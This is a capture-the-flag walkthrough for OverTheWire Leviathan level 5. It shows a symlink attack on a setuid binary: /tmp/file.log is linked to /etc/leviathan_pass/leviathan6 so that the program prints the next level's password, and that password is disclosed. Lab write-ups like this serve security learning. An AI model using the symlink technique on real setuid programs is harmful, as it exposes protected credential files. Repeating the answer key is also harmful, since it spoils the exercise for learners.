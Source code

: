 # OverTheWire Wargames

## Leviathan Level 5 --> Level 6
There is no information for this level, intentionally. 

### Solution 
See files in home directory, there is setuid file
```bash
leviathan5@leviathan:~$ ls
leviathan5
leviathan5@leviathan:~$ file leviathan5 
leviathan5: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=414fe0634bbd08f446816d4da55ea9a43484fc35, not stripped
```

Lets see how its work 
```console
leviathan5@leviathan:~$ ./leviathan5 
Cannot find /tmp/file.log
leviathan5@leviathan:~$ ltrace ./leviathan5 
__libc_start_main(0x80485db, 1, 0xffffd784, 0x80486a0 <unfinished ...>
fopen("/tmp/file.log", "r")                              = 0
puts("Cannot find /tmp/file.log"Cannot find /tmp/file.log
)                        = 26
exit(-1 <no return ...>
+++ exited (status 255) +++
```

Its open file in temp directory and output its content so what about link pass file with it
```console
ln -sf /etc/leviathan_pass/leviathan6 /tmp/file.log 
```

Now try
```console
leviathan5@leviathan:~$ ./leviathan5 
UgaoFee4li
```

### Password
> UgaoFee4li

